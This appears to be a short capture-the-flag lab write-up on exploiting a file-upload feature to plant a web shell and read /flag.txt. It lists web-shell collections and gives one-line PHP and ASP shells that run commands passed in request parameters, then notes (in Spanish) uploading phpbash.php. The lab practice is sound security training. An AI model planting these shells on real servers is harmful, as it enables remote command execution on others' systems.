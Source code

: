 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- ```asp
  <% eval request('cmd') %>
  ```

Subimos el web-shell `phpbash.php`:
![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)




